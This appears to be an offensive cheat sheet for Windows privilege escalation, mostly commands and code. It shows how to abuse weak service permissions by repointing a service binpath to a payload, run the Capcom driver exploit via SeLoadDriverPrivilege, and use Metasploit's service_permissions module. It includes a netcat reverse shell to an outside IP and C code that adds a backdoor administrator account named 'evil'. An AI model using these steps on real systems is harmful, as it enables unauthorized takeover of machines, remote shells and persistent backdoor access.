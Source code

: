 ```
<C:\Sc start (servicename)>
```

**finding the owner and info about a service**

```
<C:\sc.exe qc [service-name]>
```

**Checking the access rights of a service**

```
<C:\Accesschk.exe /accepteula /ucqv [service-name]>
```

**Changing the bin path of a service to point to your malicious payload**

```
<C:\Sc.exe config [service-name] binpath=’cmd /c [path to your payload on the remote host]’>
```

If SeLoadDriverPrivilege is enabled as a privilege for the current user then use capcom exploit

```
<C:.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService .\capcom.sys
```

Then using a bat file containing a call to a netcat listener

```
C:\Windows\Temp\nc.exe 10.10.15.74 55541 -e cmd.exe
```

Save the above into exploit.bat

```
<C:.\ExploitCapcom_modded.exe
```

**With Metasploit**

The below module can be used

```
use exploit/windows/local/service_permissions
```

You have then to set the SESSION ID and run `exploit`

#### Adding a new admin user to the compromised windows system.

Method \[1] Replace this code with an executable file with weak permissions and is run as a service or as an admin.

```
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user evil Ev!lpass /add");
i = system ("net localgroup administrators evil /add");
return 0;
}
```
